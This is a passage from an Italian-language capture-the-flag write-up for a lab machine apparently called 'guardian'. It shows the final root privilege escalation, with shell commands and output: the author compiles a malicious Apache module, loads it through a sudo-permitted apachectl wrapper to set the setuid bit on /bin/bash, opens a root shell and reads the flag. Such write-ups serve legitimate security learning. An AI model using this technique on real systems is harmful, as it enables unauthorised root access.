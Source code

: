 Si costruisce anche il file di configurazione **file.conf**.

```text
LoadModule evil_module /home/mark/confs/evil.so
```

E si caricano i file sulla macchina target e si esegue l'exploit.

```bash
# Craft the Module
mark@guardian:~$ gcc -c -Wall -Werror -fpic confs/evil.c && gcc -shared -o confs/evil.so confs/evil.o

# Pass the configuration file
mark@guardian:~$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/file.conf
apache2: Syntax error on line 1 of /home/mark/confs/file.conf: Can't locate API module structure `evil_module' in file /home/mark/confs/evil.so: /home/mark/confs/evil.so: undefined symbol: evil_module
Action '-f /home/mark/confs/file.conf' failed.
The Apache error log may have more information.

# Check the bash
mark@guardian:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.4M Mar 14  2024 /bin/bash
```

## **Shell as root**

```bash
mark@guardian:~$ /bin/bash -p
bash-5.1# id
uid=1001(mark) gid=1001(mark) euid=0(root) egid=0(root) groups=0(root),1001(mark),1002(admins)
```

Si accede al file **root.txt**.

```
bash-5.1# cat /root/root.txt
a3981e15bd9
```

---